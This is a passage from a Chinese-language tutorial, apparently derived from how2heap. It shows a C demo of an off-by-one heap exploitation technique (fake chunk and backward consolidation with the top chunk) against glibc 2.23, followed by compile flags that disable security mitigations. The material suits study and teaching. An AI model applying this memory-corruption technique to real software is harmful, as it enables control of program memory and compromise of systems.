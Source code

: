 ```c
	fakechunk[5]=(size_t)fakechunk;
	printf("\033[1;33m假设，我们通过某种方法，构造了如下的一个fakechunk：\033[0m\n");
	printf("fakechunk的地址(包含chunk头)：%p\n",fakechunk);
	printf("fd: %#lx\n",fakechunk[2]);
	printf("bk: %#lx\n",fakechunk[3]);
	printf("fd_nextsize: %#lx\n",fakechunk[4]);
	printf("bk_nextsize: %#lx\n\n",fakechunk[5]);
	
	b=(uint8_t*)malloc(0xf8);/*这就是要触发，向后合并和topchunk合并的堆块.*/
	size_t* b_size_ptr=(size_t*)(b-sizeof(size_t));/*指向 chunk b 的size位.*/
	size_t* b_addr=(size_t *)(b-sizeof(size_t)*2);/*同时也是 chunk b 的prev_size*/
	printf("\033[1;33m这里创建一个堆块b,作为合并的关键堆块:\033[0m\n");
	printf("b的地址(含chunk头)： %p\n",b_addr);
	printf("b的size位：%#lx\n\b",*b_size_ptr);
	printf("b的prev_size: %#lx\n\n",*b_addr);
	/*
	接下来就是修改size和prev_size
	这里本来是想直接利用b相关的指针去修改b的size 和 prev_size，但是
	这样做体现不出通过a的溢出漏洞来修改，所以还是使用a相关的指针去修改。
	*/
	printf("\033[1;33m那么，对于现在创建的堆块b，我们可以通过溢出去修改它的一些数据:\033[0m\n");
	a[a_size]=0;
	printf("修改后b的size位：%#lx\n",*b_size_ptr);
	
	/*
	接下来是计算，计算fakechunk的大小。fakechunk的大小当然不是0x100,
	它应该是从fakechunk到b中间这么大的一块区域
	*/
	size_t fakesize=(size_t)((uint8_t *)(b_addr)-(uint8_t *)fakechunk);
	printf("b的prev_size应该用 b 的地址减 fakechunk 的地址: %p-%p=%#lx\n",b_addr,fakechunk,fakesize);
	*(size_t *)&a[a_size-sizeof(size_t)]=fakesize;
	printf("修改后b的prev_size: %#lx\n\n",*b_addr);
	/*为了正确的合并，fakechunk的size需要和prev_size对应上*/
	fakechunk[1]=fakesize;
	/*触发合并*/
	free(b);
	printf("合并后fakechunk的size: %#lx\n",fakechunk[1]);
	printf("是b.size+b.prev_szie+b.next_szie(也就是topchunk的大小)得来的\n");
	/*最后看分配到了哪里*/
	c=(uint8_t*)malloc(0x200);
	size_t* c_addr=(size_t *)(c-sizeof(size_t)*2);
	printf("\033[1;33m最后申清一个堆块c,并查看一下是否达到了我们的目的:\033[0m\n");
	printf("c的地址(包含chunk头)：%p\n",c_addr);
}
```
### 说明
​	请在ubuntu16下编译(即使用glibc-2.23)。编译时记得关掉pie，这样便于打断点。
​	编译时参数(只能在64位下编译)
```
gcc -ggdb demo.c -o demo -z execstack -fno-stack-protector -no-pie -z norelro
```
​	这个demo是自己写的，在how2heap的基础上添加了一些基础的描述。希望可以更清楚的表达出，漏洞利的一个思路。同时，关于合并后的size大小，这里描述也做了修改。因为合并是b和fakechunk以及topchunk，所以最后的大小理论上也是三个堆块的大小相加。
![image-20250622133210334](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250622133210334.png)
​	事实上，也确实如此
